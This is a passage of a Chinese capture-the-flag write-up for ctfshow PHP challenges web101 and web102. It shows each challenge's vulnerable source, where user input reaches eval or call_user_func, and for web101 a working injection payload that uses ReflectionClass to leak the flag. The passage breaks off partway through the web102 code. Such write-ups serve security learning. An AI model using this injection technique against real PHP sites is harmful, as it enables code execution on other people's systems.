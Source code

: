 ```
flag{d3e0a106-8b97-4f79-b73d-542e6338bca7}
```



## web101~反射类

```php
<?php

highlight_file(__FILE__);
include("ctfshow.php");
//flag in class ctfshow;
$ctfshow = new ctfshow();
$v1=$_GET['v1'];
$v2=$_GET['v2'];
$v3=$_GET['v3'];
$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3);
if($v0){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\\$|\%|\^|\*|\)|\-|\_|\+|\=|\{|\[|\"|\'|\,|\.|\;|\?|[0-9]/", $v2)){
        if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\\$|\%|\^|\*|\(|\-|\_|\+|\=|\{|\[|\"|\'|\,|\.|\?|[0-9]/", $v3)){
            eval("$v2('ctfshow')$v3");
        }
    }
    
}

?>

Notice: Undefined index: v1 in /var/www/html/index.php on line 17

Notice: Undefined index: v2 in /var/www/html/index.php on line 18

Notice: Undefined index: v3 in /var/www/html/index.php on line 19
```

跟上道题差不多，过滤的严了一些。过滤掉了`\ ` 和反引号，单引号，括号。

只能用反射类了。

构造 
```php
?v1=1&v2=echo new ReflectionClass&v3=;
```

同样结果注意flag格式

## web102~hex2bin,base64编码后都为数字

```php
<?php

highlight_file(__FILE__);
$v1 = $_POST['v1'];
$v2 = $_GET['v2'];
$v3 = $_GET['v3'];
$v4 = is_numeric($v2) and is_numeric($v3);
if($v4){
    $s = substr($v2,2);
    $str = call_user_func($v1,$s);
    echo $str;
    file_put_contents($v3,$str);
}
else{
```